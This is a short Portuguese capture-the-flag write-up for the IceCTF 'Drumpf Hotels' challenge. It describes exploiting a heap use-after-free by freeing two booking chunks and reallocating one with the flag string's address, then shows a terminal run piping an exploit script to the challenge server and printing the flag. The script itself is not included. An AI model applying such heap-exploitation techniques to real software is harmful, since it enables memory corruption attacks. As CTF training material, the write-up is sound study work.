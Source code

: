 # Drumpf Hotels

O desafio consistia em explorar uma falha de heap overflow, batemos bastante a cabeça com este desafio pois achavamos se tratar de uma falha double free() porém era bem mais simples, tinhamos que gravar 2  chunks usando as funçoes room e suite e então remover ambos e adicionar uma nova room, com o numero representado em decimal do endereço de memoria da string da flag lida já no começo de main() no campo numerico. e então chamar a função do programa print booking, já que esta função leria o inicio do chunk para exibir o numero da room.

```
greyhound//deadcow ~/fun/icectf/drumpf % ./xpl.py| nc drumpf.vuln.icec.tf 6502
...
2. Book a room
3. Delete booking
4. Print booking
5. Quit
$$$ 4
IceCTF{they_can_take_our_overflows_but_they_will_never_take_our_use_after_freeeedom!}
t�S�g���t�ORooms number: 134905
Name: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD
Rooms number: 134514237
...
greyhound//deadcow ~/fun/icectf/drumpf %
```
